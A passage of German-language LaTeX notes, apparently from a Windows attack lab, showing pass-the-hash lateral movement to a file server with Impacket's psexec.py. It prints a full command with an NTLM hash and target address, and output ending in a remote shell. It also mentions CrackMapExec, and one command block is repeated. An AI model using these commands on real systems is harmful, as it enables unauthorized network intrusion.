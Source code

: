 Diese Konstellation kann nun missbraucht werden, um mit einer Technik namens "pass-the-hash" seitlich auf FS1.winattacklab.local zu gelangen.\\

$\rightarrow$ Python Script für pass the hash attacken: \lstinline|psexec.py|\\

\begin{enumerate}
    \item psexec.py - python zum NTLM Hash probieren
    \item \textbf{psexec.py  -hashes :9859340265d3b3c1eb628ece70ebc238 winattacklab.local/aalfort@10.0.1.101}\\
\end{enumerate}

\begin{lstlisting}[language=PowerShell]
    Impacket v0.9.22.dev1+20200819.170651.b5fa089b - Copyright 2020 SecureAuth Corporation

    [*] Requesting shares on 10.0.1.101.....
    [*] Found writable share ADMIN$
    [*] Uploading file LZzQLrwi.exe
    [*] Opening SVCManager on 10.0.1.101.....
    [*] Creating service HIbO on 10.0.1.101.....
    [*] Starting service HIbO.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.1397]
\end{lstlisting}

\subsection{Step 5B: Lateral Movement to FS1 via Local User}
Wir werden nun lernen, wie wir überprüfen können, ob dieser lokale Benutzer auch auf anderen Rechnern existiert. Wenn dies der Fall ist UND der Benutzer das gleiche Passwort hat, kann dies missbraucht werden, um mit einer Technik namens "pass-the-hash" seitlich auf das/die andere(n) System(e) zu gelangen.

Mit dem NTLM-Hash des Helpdesk-Benutzers können wir nun mit einem Tool namens \textbf{CrackMapExec} leicht überprüfen, ob dasselbe lokale Benutzerkonto (mit demselben Passwort) auf anderen Systemen existiert.\\

$\rightarrow$ Python Script für pass the hash attacken: \lstinline|psexec.py|\\

\begin{enumerate}
    \item psexec.py - python zum NTLM Hash probieren
    \item \textbf{psexec.py  -hashes :9859340265d3b3c1eb628ece70ebc238 winattacklab.local/aalfort@10.0.1.101}
\end{enumerate}


